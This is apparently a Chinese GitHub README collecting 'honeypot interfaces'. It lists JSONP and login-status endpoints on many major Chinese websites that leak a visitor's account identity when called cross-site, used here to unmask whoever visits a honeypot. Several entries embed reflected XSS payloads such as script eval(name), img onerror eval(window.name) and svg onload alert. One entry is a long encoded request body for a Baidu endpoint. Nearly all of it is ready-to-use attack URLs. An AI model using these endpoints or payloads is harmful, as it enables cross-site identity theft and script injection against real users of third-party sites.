 # gobee-honey
蜜罐接口收集，欢迎师傅们一起来维护

QQ接口：

r.inews.qq.com/api/ip2city?otype=jsonp&_=1636958117616&callback=jQuery110206967149572043403&_1658332281840=

u.y.qq.com/cgi-bin/musicu.fcg?data={%22HG%22%3A{%22module%22%3A%22Base.VideoFeedsUrlServer%22%2C%22method%22%3A%22GetVideoFeedsUrl%22%2C%22param%22%3A{%22fileid%22%3A%220_11_013ee9171515dd784f7988b354084cf1a294299e.zip%22}}%2C%22DB%22%3A{%22module%22%3A%22ScoreCenter.ScoreCenterEx%22%2C%22method%22%3A%22free_login%22%2C%22param%22%3A{%22test%22%3A0%2C%22redirect%22%3A%22https%3A%2F%2Factivity.m.duiba.com.cn%2Fsubpage%2Findex%3FskinId%3D1049%22%2C%22activeId%22%3A0%2C%22activeType%22%3A%22%22}}%2C%22A%22%3A{%22module%22%3A%22CDN.SrfCdnDispatchServer%22%2C%22method%22%3A%22GetCdnDispatch%22%2C%22param%22%3A{%22guid%22%3A%22MS%22}}%2C%22B%22%3A{%22module%22%3A%22VipActivity.AwardPay%22%2C%22method%22%3A%22GetPayRank%22%2C%22param%22%3A{%22actid%22%3A%22D8D2CAAC126AE8FB%22%2C%22pagesize%22%3A0}}%2C%22C%22%3A{%22module%22%3A%22login.BasicinfoServer%22%2C%22method%22%3A%22CallBasicInfo%22%2C%22param%22%3A{}}}&callback=jsonp1658332281481

当当网
message.dangdang.com/api/msg_detail.php?customer_id=o4P00TweebicwjhS72NWew%3D%3D&data_type=jsonp&pageindex=1&module=1&pagesize=20&_=1596772198527&callback=jsonp1658332281478

cnblogs
passport.cnblogs.com/user/LoginInfo?callback=test

163接口
comment.api.163.com/api/v1/products/a2869674571f77b5a0867c3d71db5856/users/myInfo?callback=jsonp1658332281479

51cto
home.51cto.com/Index/getLoginStatus2015/reback/http%253A%252F%252Fwww.51cto.com%252F

https://home.51cto.com/index.php?s=/Index/getLoginStatus2015/reback/http%253A%252F%252Fwww.51cto.com%252F&xxoo=chrome-extension://

虎扑
remind.hupu.com/api/getRemindNum.api.php?contenttype=js&url=https%3A%2F%2Fbbs.hupu.com%2F40032955.html 

新浪
m.iask.sina.com.cn/cas/logins?domain=iask.sina.com.cn&popup=show&clsId=undefined&channel=null&businessSys=iask&fid=%22%3E%3Cscript%3Eeval(name)%3C/script%3E

https://login.sina.com.cn/sso/prelogin.php?entry=weibo&su=&rsakt=mod&client=ssologin.js(v1.4.19)&&callback=%3C%3E

人人
passport.game.renren.com/user/info?callback=jsonp1658332281480

csdn
api.csdn.net/oauth/authorize?client_id=1000001&redirect_uri=http://www.iteye.com/auth/csdn/callback&response_type=%22https%3A%2F%2Fapi.csdn.net%2Foauth%2Fauthorize%3Fclient_id%3D1000001%26redirect_uri%3D%22http%3A%2F%2Fwww.iteye.com%2Fauth%2Fcsdn%2Fcallback%26response_type%3D%22%3E%3Cimg%20src%3Dx%20onerror%3Deval(window.name)%3E

https://api.csdn.net/oauth/authorize?client_id=1000001&xxoo=chrome-extension://&redirect_uri=http://www.iteye.com/auth/csdn/callback&response_type=%22[url]https://api.csdn.net/oauth/authorize?client_id=1000001&redirect_uri=%22http://www.iteye.com/auth/csdn/callback&response_type=%22%3E%3Cimg%20src=x%20onerror=alert[/url](1)%3E



爱奇艺
nl-rcd.iqiyi.com/apis/urc/getrc?contenttype=js&agent_type=1&cb=cb_r0i8g&ckuid=&dp=3&limit=5&only_long=1&terminalId=11

58同城
employer.58.com/index/enterpriseinfo?&callback=jsonp1658332281482

https://employer.58.com/index/enterpriseinfo?&xxoo=chrome-extension://&&callback=jQuery152018637907672647902_1657807551290&_=1657807551747

passport.58.com/pso/viplogin?path=https://employer.58.com/

百度阅读
yuedu.baidu.com/nauser/getyduserinfo?na_uncheck=1&opid=wk_na&callback=bd

https://p.qiao.baidu.com/cps5/chat/push?sid=-100&tid=-1&reason=&tid_authtype=-1&sign ... ken%2522%253A%2522bridge%2522%257D&v=1657807497809587484

POST /abot/api/v1/tpl/commit HTTP/2
Host: sofire.baidu.com

CODED--v20ezLvhHO=QsO=Zau7]9gHbicHf1[2h`h7dDK9MoK9V]q3Y5cD^e_Db-W.d\dLe5;6aIT3gMS=T0C0X)T-ihJ6m0\5rao>uOWAL3Pzg-S+a;rspRz2jXhG],;.r\cQ/DgDIkqlVHOzQsOt[vW5^eW:yY/Ke0c<e5g6OjK)RYK.mMq=Z4W0Y)_*c,`My\K_p4DUaDz9eH7\^00AmP?Xc88-v,Gmm@@5,4g@IkSlSnPUa`XUn)`)rT[4]-k.g0c=ja3DIjylRnO=QsKtXPWBY)/*y0+9iIN2h`gSIkqlQXOzQsut[vW7]T[4]-[<a172qbpfIG\s^]jskr0OmUX3rhgziZh^a_t9vu09cjzGeMP+j`v<n`P`bVkzj001*KpBhbO=Y4Lyg7?tlLLQfTr)YWTXf,XnyppNvug@V3XlW7r7QPT<md4?\h,6][X\j0c<e5cEIkqlQXOzQsO2Uw+x]T[4]-[?a172i`g@IkG3MoupU\S,UwS@Y)/*ah_8a1_Me5;6MTKvMoK:Qsyt`dGEqh84mhNHd1[0gbO5Y3nxhL?/iM+r_dC?jh7zhl\/a^Soec34MUCxQY[>QQT=[wS4]zF8_hX_rph;,DVFMEGzQIK,U\LRmeX)j,KG`=[<e0N@e4C6MUilSnPvlQ\0o5+3\DS6wl0-z@O2ut88dT7mf76+a<L3Y4GyqXXCglK0rq/2h`gEOTK9MnOzQsS1Uw+@^)W4]-_>a172kdkDZEPpQoHoa;Tuea_Bi)c:cid0eA05iqp9ZXToQrO/a;[2[aPy]z[4]-_Ga172e4C6MkWlSnOpTLS2ZvWEYz[4]-_Ja172i`g@IkK7Moupl`?+nzGBrz[4]-_La172.tS?bn;6fnOzQsW0Uw+xthG3v0OJz0c<e5kEIkql]]H,jPvuee`-rCF7w\h2d_\`n4`vaXX6^]P?lP`?pPG4jXk4iZh^a_t9vu09coylPHO/UrSAU)\wr-_5wGl>yps2h`gGMzK9MzY;znam0rovx<i[*8wo:<5s>`g@IkO3MoupVPXxfdc5_hd-n-[=fKsCuth5N3G)QIXrbPc3ZQqBj)W9n\l1rm,2j4g@IkO4MoupYaL0nTc0aiT8v\k,lm_2h`gGNjK9Ms\*i;?/p?Bx\T[;b<_Ma5p>+OSCd36lPHO/WLSAUyh)s,d)v0[8a_l9,ttGLDDd]]Hti`?/XPPQsYT4njz;*`09uDg@IkSzMoupULS,Uw_5Y)/*],;.f]c2k4gDMkG)R-G7V][?YQO4]US8aYW<e][@ia_DMECzQIG,UMK0YQO4]US8aYW<e][@ia_DMECzQIG,UMq;YQT*j)y8aYcJg]tbjbxaMlS)Vo[9ZN[3YauA^fhVb-g=fIcKiE4dOVK9Vpi@U]K0YQO4]US8aYW<e][2h`gOMzK9MoK,Qr/tZQ_x_z[:],;.f]o2k4gENkW7Q-S8W]_3ZwODYz7*bYo.g0c@ha_6LDK3R,O=QsO,Y`35Yz7*bY+.g0dcvtl?bzy*QIK,UMO0Y`30\VC7y008z`_<p8tOc3PkgL[z\`Pu_dC?jh74a=y8a0?2jq_6OjLzPsLwa`B.ezT-jYg6mGO9a0?2jqc6OjKlPHO8UrSAUw[4]Yy9biW.d\cLj`gUIkClPHO8V\SAUwO0]T78],;.fms2k4gDIjylRYipWrS1XQO0]T78`YW8e\c<e5sSIkqlPHOzQsc0Uw+x]T[4]-o=a172i`g@Ik[*MoupULS,Uwg7Y)/*aX_8a1sLe5;6MDKvMoi,QsytYwO5_UW8aY[<e][@ia_6LDK6QXO=QsO,YP34\US4aX;<d][2h`gRNDK9^rLzk;_,Uwq@Y)0.ml<?rl?2jEw6On\kfMTsTLS>Z4WEj,X4wGk8a1+Oe5<:YXz+^X+pV1ut[zhwrY`-`X_Ke\cQv8d@c3WvMom-Qszxed47jd7*cY_.g4t1,el9LDK7Q,O=bvP,o?c0Y)yE]-3.e\c<e53RIkrp]\,/b\/tZaW5Y)/*glKGrp?0ptd7IF;WMKmnU]K.Yacx\T[DbY[.g0d>,Po4YY\ke\,oav0wUv3xj)_*c,_Hd1[0gbO5Y3nxhL?/iLutXPX*^z[Ix]`Hrl?2u5dFIkqlMn+pasP3Uw+xYz7*m-\/a17@h`h6MYSlSoGzQvS1mPWE]T7*m-\2a17@h`h6MXKlSoGzQvS1ozcx_)S4]-_GqlcQi`C6MkTlMoupQr/tYw`yY)/8`X_>f`k2k5_@IkK3^XO=UL/tYw`*Y)/8`X_>f`+2k5_@IkK3eHO=UL/tYw`-Y)/*],;.e1l:e5;6IjylQoX.baWt[vX-r,,C],;.e1l@e5;6IjylhMS-Qsy1ZwcC]9_Dcik?f1_Lh`hOc)KlSoK9V]q3Y5cD^e_Ecic8a5lCiDgUMDylhMS7Qsy1ZwcC]9_DcikGemcAh`hOc)[lSoK9V]q3Y5cD^e_Eaik8a5lCjDgUMDylhMS;Qsy0XPX?s9+*c-[Ifm/CiEsTNUS)QoKzQwz3Uw+x]T[4]14?e\cQe536LDLke,O=QrS,U)h)sz[I],_8a4hCe5;6MTKvMrL,QsytZa_C]T[4]1p1a172iDRDLkG5Mn+pkv>t[vW5Yz7*wHy.g0c@e4C6c4f9MoupULTDXPXwq8[I]-kGg][2h`h6IkqlSYm7VPc?Ydc5^USGn-p1qKcPiEgEM)fnQ-Tpb`[>e?hziCkDai,-eAcBjEwDMEW8RoG,VMO0YPW0Y-d8]-3.z`R2h`h<IkqlMn+pavut[vWC^*kCf.[>j]`bjqxdREO)SI_8Z^S=ZQSBa)c;cZgLi18bnENEIjylg,O=Qsr\eyP3s,zealk<o0c<e8WOIkqlVLTpS<[;ovG^afvVmkc<)2KupM4pd3PzgYnTlN,=a=`]]BS:uE<J*]sC-t?OeIfLh,?UasdYfQhQ\9\FvhO-n^?Oqud<TXXKZrLWUM`z]z_6_gk:hld4r2/L+E0vNVLKZ,zqaaS1aS[Dthz`_H\9yp4L.d0oWlj*^6\Sk]vMf)h*_XXZwG/>rIS;.ehvcmj\h,?`ku\N`UXiue`\x\<^fmp_hMxjK3fGQsTP\Ov)^yhebYzlyizbk^O6pa_ReYjpSZX9__nte),5j*GIu/lgl4<LgO0=a4HJXorxW_S2fzhSriv1`HpJzn@m+e/QN1;pS\7sY:TMb>d2e9dFvlz_rpt1iq3PNl7dSMX[la\-]),DfWuDkmz;nnh4o8cRb1m8[]HObM`?e=CV[D\VampMmal`suldaULI],?LmOvvocP,rX\Hi/k=modKnd0nOUHkYILO^MW2mQd.bCCZhEhHl]pQmO0GbV3PhMLU]^q?ZbXbs9v.x=hYn5`eoOoCaWHxjJm9V1_0o4FAi,\gb]`.*Jd>pDWrZ)Tre8ra\PX0`c`ArfG;j]lbgq4pvbsXfEGzjIrpVPO1Z5[6jeyGb0p-f1sBkql6NXK*SYPqU;dxZw[@Yz7*m<_Ma0c<e8c6OjKlPHPoi`[t[vW@^Uy8],;.q44Qe5<VfTylhnO=QsW.YPB5^z[4]1lGa172e9N\

easylearn.baidu.com/edu-web/activity/extracheck?courseId=1&xxoo=chrome-extension://&type=1&&callback=jQuery152023802138955832153_1658335948692&_=1658335949723 

zol
my.zol.com.cn/public_new.php

ipip
ipip.iask.cn/iplookup/search?format=js&_=1658332291360 


zdw.w8.com.cn/p.ht

直播吧
https://bbs.zhibo8.cc/user/userinfo?device=pc&xxoo=chrome-extension://&_=1657807551741&callback=%3C1

携程的
https://accounts.ctrip.com/ssoproxy/ssoGetUserInfo?xxoo=chrome-extension://&jsonp=%3C%22?&callback=11111

博客园(xss反弹)
https://wz.cnblogs.com/create?t=xxxx&xxoo=chrome-extension://&&u=%22%3E%3Csvg/onload=alert(%221%22)%3E&c=&i=0

虎牙的接口 
https://www.huya.com/udb_web/udbport2.php?m=HuyaLogin&xxoo=chrome-extension://&do=checkLogin

超星的
POST /getauthstatus HTTP/1.1
Host: passport2.chaoxing.com

enc=80a46477866993d3599b7f39506f8ece&uuid=ddbc623b7fc14a07b4b6c8cae881f51c

苏宁家的
https://myjr.suning.com/sfp/mutualTrust/getLoginInfo.htm?xxoo=chrome-extension://&&callback=jQuery172011468305000873791_1608255922695&_=1657807551743

爱问的
https://m.iask.sina.com.cn/cas/logins?domain=iask.sina.com.cn&xxoo=chrome-extension://&businessSys=iask&channel=null&popup=show&clsId=undefined&fid=1


京东的
https://api.m.jd.com/client.action?functionId=getBabelProductPaged&xxoo=chrome-extension://& ... 6e%6e%65%72%41%6e%63%68%6f%72%22%3a%22%22%7d&screen=2799*1208&client=wh5&clientVersion=1.0.0&sid=&uuid=&area=&_=1585823068850&callback=jsonp1

城通网盘
https://home.ctfile.com/iajax.php?item=profile&xxoo=chrome-extension://&action=index&jsonp=jQuery2398423949823

cnzz
s95.cnzz.com/z_stat.php?id=1261171181&web_id=1261171181 

zhibo8
bbs.zhibo8.cc/user/userinfo?device=pc&xxoo=chrome-extension://&_=1658335949723&callback=jQuery152023802138955832153_1658335948691

youku
download.youku.com/download

Ctf
home.ctfile.com/iajax.php?item=profile&xxoo=chrome-extension://&action=index&jsonp=jQuery2398423949823

Soho
v2.sohu.com/user/info/web?&xxoo=chrome-extension://&&callback=jQuery152023802138955832153_1658335948694&_=1658335949723
